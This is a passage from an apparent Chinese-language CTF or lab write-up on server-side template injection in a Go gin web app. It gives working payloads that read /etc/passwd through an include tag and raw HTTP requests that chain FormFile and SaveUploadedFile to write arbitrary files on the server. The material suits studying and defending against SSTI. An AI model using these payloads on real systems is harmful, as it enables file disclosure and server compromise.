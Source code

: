 注意： gin 会将输入的 http 头的首字符换成大写。

这样一来便可以绕过针对 url 参数的字符串过滤:
{% raw %}
```go
name={%25%20include%20c.Request.Header.Aaa[0]%20%25}
aaa: /etc/passwd
```
{% endraw %}

## 任意文件写
既然可以调用任意函数，那么我们可以寻找是否有文件操作的函数，搜索 Context 文档时发现存在 SaveUploadedFile 方法。

函数定义如下：
```go
func (c *Context) SaveUploadedFile(file *multipart.FileHeader, dst string) error
```

一般情况下，需要先获取上传文件的 multipart.FileHeader 对象，然后再使用 SaveUploadedFile.

Context.FormFile 函数可以从上传的文件中通过 filename 获取这个对象：
```go
func (c *Context) FormFile(name string) (*multipart.FileHeader, error)
```
发包如下：
{% raw %}
```go
GET /admin?name={{c.FormFile(c.Request.Header.Filetype[0])}} HTTP/1.1
Host: 192.168.137.98
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
aaa: file
Filetype: file
Filepath: ./server.py
Cookie: session-name=MTY4NTQxMTc3MXxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXxUX9L8ZRNPWeNBBMT9NDKZ9Jpzx60fZwNoViv5j6YI5Q==
Connection: close
Content-Length: 193
Content-Type: multipart/form-data; boundary=01f54ee8f2872c8a0d42d14f70cdc1fe

--01f54ee8f2872c8a0d42d14f70cdc1fe
Content-Disposition: form-data; name="file"; filename="test.png"
Content-Type: image/png

This is the file content
--01f54ee8f2872c8a0d42d14f70cdc1fe--

```
{% endraw %}

此时会得到:
```
Hello <multipart.FileHeader Value>!
```
接下来就可以通过 SaveUploadedFile 写入文件, 发包如下：
{% raw %}
```http
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.Header.Filename[0]),c.Request.Header.Filepath[0])}} HTTP/1.1
Host: 192.168.137.98
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
aaa: file
Filename: file
Filepath: ./pwned
```